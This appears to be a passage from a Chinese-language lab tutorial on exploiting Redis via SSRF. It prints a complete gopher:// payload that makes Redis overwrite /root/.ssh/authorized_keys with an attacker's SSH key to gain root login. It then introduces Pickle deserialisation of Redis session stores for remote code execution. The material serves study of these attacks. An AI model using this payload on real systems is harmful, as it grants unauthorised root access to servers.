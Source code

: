 ‌Authorized_keys 用于存储 SSH 公共密钥列表，以便用户使用 SSH 私有-公共密钥对而不是密码登录。授权 _ 钥匙位于`$HOME/.ssh/authorized_keys`

如果`$HOME/.ssh/authorized_keys`是可写的，这可以用来存储攻击者的 SSH 密钥。

```
$ python payload_redis.py sshgopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%24403%0D%0A%0D%0A%0D%0Assh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABAQDc4B6PTML3xiqId/qw8cJkPmwSbtdOsAS2IGUUk1ifRHZsdfgcFvj7fzMFo1ydGAOuZcGPeT838LQ3R8ruWe4B788Q5ZKRO6CZSoEmqs4FWuCz7QvwWu9%2B2kMH/6gUvVQAQNYD2RACXgJcCAm77bg/WHZfgGJYNtOKDUf%2B0V1ku%2B/h8ijsQJdkuk5Zr7w1xjOdigLs8ST7MivptfYGvbnh/XUk3Y2EfyoACmW0MpcnthdLL3s/8SOs5exekRNYYU9rn74itibDHlsYvukBtKhW/XOAPZ3T38qDf7PJyqPoOl%2BAQ8AaFwIBVfE7V1mPRCqZLkG97SRjMy1V9dhTgG4h%20rhama%40Inspiron-7472%0D%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2410%0D%0A/root/.ssh%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2415%0D%0Aauthorized_keys%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A====================================================After payload executed, try ssh root@server_hostname====================================================
```

即使存在虚拟数据，也可以访问 Ubuntu 和 Centos Lab ssh。

![](img/b18c27861a6966ce870145253c5bafda.png)

宋承宪 ke Ubuntu 实验室

# Redis 作为会话存储

后端服务器经常使用 Redis 作为会话存储，在 Redis web lab 中，会话存储将重点利用*不安全序列化*，因为*会话*通常是以对象的形式存在的，为了将这些对象存储到 Redis 中，必须将会话对象转换成字符串。将对象转换为字符串的过程称为“ ***序列化*** ”，将字符串转换为对象的过程称为“ ***反序列化*** ”。

实验室使用来自[服务器端会话的示例片段将 *Redis 实现为会话存储*，Redis](http://flask.pocoo.org/snippets/75/) 和 *Pickle* 用作*序列化器*，Pickle 是已知的不安全的，可被利用来获取 RCE。

![](img/261c489358528041587684432b24cec1.png)

